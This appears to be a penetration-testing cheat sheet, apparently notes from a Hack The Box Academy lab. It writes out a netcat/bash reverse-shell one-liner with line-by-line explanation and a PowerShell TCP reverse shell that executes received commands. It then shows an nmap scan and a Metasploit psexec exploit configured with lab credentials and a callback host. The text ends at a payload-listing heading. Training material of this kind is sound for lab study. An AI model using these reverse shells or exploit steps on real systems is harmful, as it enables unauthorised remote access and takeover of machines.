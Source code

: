 ```shell
```
# PAYLOADS
#### Netcat/Bash Reverse Shell One-liner
```shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
```
**/tmp/f**
- Removes the `/tmp/f` file if it exists, `-f` causes `rm` to ignore nonexistent files. The semi-colon (`;`) is used to execute the command sequentially.
**mkfifo /tmp/f**
- Makes a [FIFO named pipe file](https://man7.org/linux/man-pages/man7/fifo.7.html) at the location specified. In this case, /tmp/f is the FIFO named pipe file, the semi-colon (`;`) is used to execute the command sequentially.
**cat /tmp/f**
- Concatenates the FIFO named pipe file /tmp/f, the pipe (`|`) connects the standard output of cat /tmp/f to the standard input of the command that comes after the pipe (`|`).
**-i 2>&1**
- Specifies the command language interpreter using the `-i` option to ensure the shell is interactive. `2>&1` ensures the standard error data stream (`2`) `&` standard output data stream (`1`) are redirected to the command following the pipe (`|`).
#### Open a Connection with Netcat
```shell
nc 10.10.14.12 7777 > /tmp/f  
```
#### Powershell One-liner
```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
# Metasploit
#### NMAP Scan
```shell
nmap -sC -sV -Pn 10.129.164.25
```

```shell
sudo msfconsole 
search smb
```
###### `56 exploit/windows/smb/psexec`
```msf
use 56
set RHOSTS 10.129.180.71
set SHARE ADMIN$
set SMBPass HTB_@cademy_stdnt!
set SMBUser htb-student
set LHOST 10.10.14.222
exploit
```
#### Interactive Shell
```shell
meterpreter > shell
```
# MSFvenom
#### List Payloads